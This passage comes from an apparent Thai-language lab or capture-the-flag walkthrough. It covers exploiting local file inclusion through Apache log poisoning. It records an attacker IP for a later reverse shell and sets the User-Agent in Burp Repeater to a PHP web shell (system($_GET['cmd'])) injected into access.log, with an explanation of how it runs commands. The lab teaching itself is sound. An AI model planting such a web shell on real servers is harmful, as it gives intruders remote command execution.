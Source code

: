 ```bash
10.9.0.160
```

- ให้จด IP นี้ไว้ เพราะเราจะใช้มันในการสร้าง reverse shell กลับมาหาเครื่องเราในขั้นตอนต่อไป

### 💉 2.7 วาง PHP Payload ผ่าน User-Agent (Log Poisoning)
> หลังจากที่เรายืนยันแล้วว่าไฟล์ `/var/log/apache2/access.log` สามารถถูกอ่านผ่าน LFI ได้ และคำร้องขอ (request) ของเราถูกบันทึกทั้งบรรทัด—including `User-Agent`—เราจะใช้ Log Poisoning เพื่อ inject โค้ด PHP ลงไปใน log file

19. 🛠 Payload ขั้นตอนนี้
- ในแท็บ Repeater:
  - เราจะต้องลบตัวแทนออกไป (ตรง User-Agent)

![user-agent](images/10.png)

20. ต่อมาเราจะแก้ไข User-Agent ให้เป็น:

```bash
<?php system($_GET['cmd']); ?>
```

![user-agent](images/11.png)

📌 อธิบายโค้ด:
 - `<?php ... ?>` คือโค้ด PHP
 - `system($_GET['cmd']);` จะรันคำสั่ง shell ที่ถูกส่งมาผ่าน query parameter ที่ชื่อ cmd
